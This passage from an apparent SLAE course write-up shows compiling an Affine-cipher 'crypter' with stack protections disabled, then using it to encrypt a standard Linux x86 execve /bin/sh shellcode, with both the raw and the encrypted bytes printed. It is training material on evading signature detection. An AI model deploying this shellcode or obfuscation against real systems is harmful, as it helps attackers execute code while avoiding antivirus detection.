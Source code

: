 in order to compile the code the following command will be used

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment7</b></span># gcc -O0 -fno-stack-protector -z execstack  -o affine affine.c
</pre>

Now that the code compiled without errors it is time to test it. The following screenshot shows the default message when the program runs without arguments

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment7</b></span># ./affine

[x] Error: Provide an option and a valid shellcode


[!] Usage: ./affine < option > < shellcode >

Options:
         -d : Decryption
         -e : Encryption
</pre>

<p style="text-align:justify;">
When the Crypter runs using the <b>-e</b> option as seen below, then the encryption operation will be used to encrypt the <b>execve</b> shellcode using the Affine cipher&nbsp;
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment7</b></span># ./affine -e \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80


[!] Affine Encryption


[+] Shellcode:

\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80


[-] Encrypted Shellcode:


\x07\x7d\x77\x78\x11\x78\x16\x20\x02\x06\x02\x06\x1b\x07\x16\x20\x16\x20\x02\x06\x16\x02\x16\x25\x16\x01\x20\x25\x01\x07\x11\x78\x20\x25\x01\x02\x11\x07\x20\x25\x01\x7d\x72\x78\x78\x72\x77\x7c\x20\x78
